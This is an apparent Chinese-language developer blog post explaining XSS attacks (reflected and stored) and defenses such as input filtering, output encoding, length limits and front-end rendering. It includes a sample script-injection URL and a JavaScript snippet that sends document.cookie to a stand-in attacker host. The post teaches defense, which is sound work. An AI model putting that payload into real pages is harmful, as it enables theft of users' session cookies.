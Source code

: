 ```yaml
---
layout: post
title: 你们的系统真的安全吗？你们系统是不是也有这种诡异的情况呢？
date:   2019-09-24 22:14:54
categories: Web安全
---
```


这个文章来源灵感是公司的项目在安全检查的时候，发现了很多 SQL 注入的一些问题还有一些 XSS 攻击问题，SQL 注入我们都是比较了解的，那么什么是 XSS 攻击呢？测试反馈给我的时候我是一脸懵逼呀，现在我们就来说一下什么是 XSS 攻击，以及我们怎么防止它的出现。
<!--more-->

## 什么是XSS攻击

我当时听到 XSS 攻击的时候是一脸懵，但是，程序员咱们不就是就是解决问题的嘛，于是打开 Chrome ，百度！

百度百科给出的解释是这样的：

XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript ，但实际上也可以包括 Java 、 VBScript 、ActiveX 、 Flash  或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。


XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列 表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨大的，是web安全的头号大敌。

## XSS攻击类型

1. XSS 反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

其实反射型 XSS ,也叫非持久型 XSS ，是指发生请求时，XSS 代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含 XSS 代码，最后浏览器解析并执行。从概念上可以看出，反射型 XSS 代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后 XSS 代码才能够攻击。

我们看一下 XSS 攻击他是怎么使用 URL 来进行攻击的。

具体流程：

- 1给2发送一个恶意构造了Web的URL。
- 2点击并查看了这个URL。
- 恶意页面中的JavaScript打开一个具有漏洞的HTML页面并将其安装在2电脑上。
- 具有漏洞的HTML页面包含了在2电脑本地域执行的JavaScript。
- 1的恶意脚本可以在2的电脑上执行2所持有的权限下的命令。

举个例子来说就像是这样的，``` http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>```


2. XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

而 XSS 存储型攻击，也叫持久型 XSS ，主要是将 XSS 代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上 XSS 代码了。最典型的就是留言板 XSS。用户提交了一条包含 XSS 代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有 XSS 代码，就当做正常的HTML和JS解析执行。XSS 攻击就发生了。

这种存储型攻击一般就会用来窃取 Cookie，token，账号和密码这样的数据，

就比如说，我们在页面上写内容的时候，A发了一篇文字，B回复的应该是文字才对，这时候B发送了一段文字，并且在内容里面嵌入了JS的代码，这时候B的JS的代码就会执行，比如在里面窃取你的Cookie等操作，这些都是有可能存在的。

还有的就是有一些网站，在本应该是图片的地方他加上了Src,在你无意中惦记图片的时候，就直接跳转到某个网站下，这些属于其实也是属于XSS攻击的。

就比如说他要获取你的Cookie：
```
var i=document.createElement("img")
document.body.appendChild(i)
i.src = "http://www.hackerserver.com/?c=" + document.cookie

```
就再图片的后面给你加上了这个获取你Cookie的方法，然后你在点击到这个链接的时候，就会把Cookie的信息带出来了。


## XSS攻击需要有哪些条件

1. 需要向web页面注入恶意代码；

2. 这些恶意代码能够被浏览器成功的执行。

也就是说，一旦满足这条件的时候，就会出现XSS攻击这种情况，那么，你的系统安全性将会受到严重的破坏。

## XSS原理

其实XSS攻击最主要发生的地方就是我们的HTML中，因为HTML是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记，例如，小于符号（<）被看作是HTML标签的开始，```<title>与</title> ```之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了HTML标签，当这些HTML标签引入了一段JavaScript脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生XSS漏洞。

我们说完到底什么是XSS攻击之后，我们该说一下到底应该怎么去防范了。

## 如何防止XSS攻击

1.入参字符过滤

比如说把输入的一些不合法的东西都过滤掉，从而保证安全性。如移除用户提交的的DOM属性如onerror，移除用户上传的Style节点，`<iframe>, <script>，<a>`节点等

2.出参进行编码

像一些常见的符号，如<>在输出的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。例如：对<>做编码如："<"用:"&lt;",">"用:"&gt;"来代替。

3.入参长度限制

xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

4.纯前端渲染

纯前端渲染的过程：

(1).浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。

(2).然后浏览器执行 HTML 中的 JavaScript。

(3).JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上。

在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式（.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等，请参考下文”预防 DOM 型 XSS 攻击“部分）。

在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。

以上就是我想给大家讲述的内容了，如果你们公司的系统还没有做过XSS漏洞检测，那么你就可以适当的把自己的代码修改一下了，毕竟我们不是一点JS代码都不写的，你说呢？

我是懿，一个正在被打击还在努力前进的码农。欢迎大家关注我们的公众号，加入我们的知识星球，我们在知识星球中等着你的加入。
